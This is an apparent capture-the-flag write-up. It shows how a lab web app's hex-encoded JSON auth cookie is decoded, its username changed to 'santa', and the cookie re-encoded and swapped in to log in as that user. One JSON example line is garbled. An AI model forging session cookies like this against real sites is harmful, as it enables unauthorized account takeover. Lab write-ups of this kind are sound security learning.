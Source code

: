 - linux server (from ping TTL)
- password length > 5, 
- running php. I found out by request for `index.php` -> return 200. index.html -> return 440

I created an account `kurohat:12345`. There is not much to see/do on the main page, only logout button. I then check dev tool -> cookie
```
auth:7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226b75726f686174227d
```
I assume that is a hex/base64 encoded string. let's use CyberChef to understand what the string represent! It turn out that it is a hex. This is the result when I convert it to a uft-8
```
{"company":"The Best Festival Company", "username":"kurohat"}
```
the plan is change username to santa (`{"company":"The Best Festival Company", "username":"santa"12**123:))}`). Convert it into hex using CyberChef which will give us
```
7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d
```
now remove your cookie value and replace it with Santa's cookie -> hit F5 (refresh). BOOM! we are in as Santa

Active each control to get flags

# etc
- SatNav = Satellite navigation
- never use poor cookie!!!